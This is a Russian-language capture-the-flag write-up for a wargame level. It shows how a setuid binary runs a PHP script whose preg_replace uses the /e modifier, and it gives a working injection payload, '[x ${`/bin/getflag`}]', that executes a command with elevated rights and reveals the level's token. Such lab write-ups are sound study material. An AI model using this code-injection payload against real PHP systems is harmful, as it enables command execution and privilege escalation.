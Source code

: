 ```
ls -l
```
> total 12\
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06\
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php

так как на level06 есть suid, значить выполнять необходимо будет его

```
strace ./level06 2>&1 | grep execve
```
> execve("./level06", ["./level06"], [/* 20 vars */]) = 0\
execve("/usr/bin/php", ["/usr/bin/php", "/home/user/level06/level06.php", "", ""], [/* 20 vars */]) = 0

Понятно, что этот бинарник выполняет скрипт, который лежит рядом

Тестируя понимаем, что первым аргументом level06 принимает файл, который будет распаршен
```
./level06
```
> PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4

```
./level06 123
```
> PHP Warning:  file_get_contents(123): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4

```
cat level06.php
```
> #!/usr/bin/php\
<?php\
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }\
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }\
$r = x($argv[1], $argv[2]); print $r;\
?> 


В скрипте есть строка
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a)
								 ^
								 |
Это означает, что далее найденный паттерн выполниться в php коде, в нашем случае в функции y()

preg_replace(
    string|array $pattern,
    string|array $replacement,
    string|array $subject,
    int $limit = -1,
    int &$count = null
): string|array|null
preg_replace — Выполняет поиск и замену по регулярному выражению
Выполняет поиск совпадений в строке subject с шаблоном pattern и заменяет их на replacement.

Главное, чтобы то что пришло в subject удовлетворяло регулярке и выполнилось в коде

дальнейшее выполнение нас не интересует, главное, чтобы php выполнил getflag для этого создаем файл, который будем ему подавать

```
echo  '[x ${`/bin/getflag`}]' > /tmp/php
```

```
./level06 /tmp/php
```
> PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub\
 in /home/user/level06/level06.php(4) : regexp code on line 1
